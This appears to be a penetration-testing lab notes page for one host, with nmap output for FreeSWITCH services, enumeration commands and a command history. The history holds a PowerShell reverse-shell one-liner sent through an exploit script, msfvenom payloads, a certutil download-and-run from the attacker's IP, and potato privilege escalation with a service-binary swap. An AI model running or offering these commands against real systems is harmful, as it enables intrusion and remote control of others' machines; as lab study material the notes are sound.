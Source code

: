 # 192.168.x.143
# Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`

- C:\Users\chris\Desktop\local.txt
- C:\Users\Administrator\Desktop\proof.txt

# Accounts
### username / password
`<connection method>`   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.204.151 --top-ports 1000`
```
ORT     STATE SERVICE          VERSION
80/tcp   open  http             Microsoft IIS httpd 10.0
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
5060/tcp open  sip-proxy        FreeSWITCH mod_sofia 1.10.1~64bit
5080/tcp open  sip-proxy        FreeSWITCH mod_sofia 1.10.1~64bit
7443/tcp open  ssl/websocket    (WebSocket version: 13)
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
8081/tcp open  websocket        (WebSocket version: 13)
8082/tcp open  ssl/websocket    (WebSocket version: 13)
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8081-TCP:V=7.95%I=7%D=6/18%Time=68534EAA%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,37,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSocket-Versio
SF:n:\x2013\r\n\r\n")%r(GenericLines,37,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nSec-WebSocket-Version:\x2013\r\n\r\n")%r(HTTPOptions,37,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nSec-WebSocket-Version:\x2013\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8082-TCP:V=7.95%T=SSL%I=7%D=6/18%Time=68534EBF%P=x86_64-pc-linux-gn
SF:u%r(GenericLines,37,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSocke
SF:t-Version:\x2013\r\n\r\n")%r(GetRequest,37,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nSec-WebSocket-Version:\x2013\r\n\r\n")%r(HTTPOptions,37,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSocket-Version:\x2013\r\n\r\n
SF:");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
`sudo nmap -A -T4 -p- 192.168.204.151`
```


```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
nc -lvnp 4444

python3 ./47799.py 192.168.204.151 'powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\"192.168.45.186\",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"'

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.186 LPORT=4444 -f exe -o shell.exe

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.45.186
set LPORT 4444
run

python3 ./47799.py 192.168.204.151 'certutil -urlcache -split -f http://192.168.45.186/shell.exe shell.exe && shell.exe'

// get meterpreter session

getuid

upload SigmaPotato.exe



RoguePotato.exe -r 192.168.45.186 -e "C:\windows\system32\cmd.exe" -l 9999


msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.186 LPORT=9999 -f exe -o KiteService.exe

upload KiteService.exe
net stop KiteService
net start KiteService

//get reverse shell

```